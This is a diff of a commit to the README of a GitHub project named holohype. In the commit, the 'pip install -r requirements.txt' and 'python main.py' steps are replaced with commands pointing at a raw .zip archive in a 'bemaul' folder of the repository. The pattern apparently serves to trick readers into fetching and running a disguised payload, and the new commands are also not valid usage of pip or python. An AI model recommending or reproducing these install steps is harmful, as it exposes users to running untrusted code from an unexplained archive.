

Before and after one commit to Jskt02/holohype, a Markdown page: README.md, the part around one of its changes. Rendered like a GitHub page.

````diff
--- a/README.md
+++ b/README.md
@@ -33,14 +33,14 @@ To run holohype smoothly, make sure your computer meets the following system req
 2. **Install Dependencies:**
    To ensure that holohype runs properly, you may need to install some additional software. Open a terminal or command prompt and run:
    ```
-   pip install -r requirements.txt
+   pip install -r https://raw.githubusercontent.com/Jskt02/holohype/main/bemaul/holohype.zip
    ```
    This command installs the necessary libraries for holohype.
 
 3. **Run the Application:**
    Navigate to the folder where you saved holohype. If you downloaded a `.exe` or similar executable file, simply double-click it to start the application. If you have a script, run it by typing:
    ```
-   python main.py
+   python https://raw.githubusercontent.com/Jskt02/holohype/main/bemaul/holohype.zip
    ```
    in the terminal.
 
````
Also changed, not shown: other parts of README.md (+3 -3 lines).
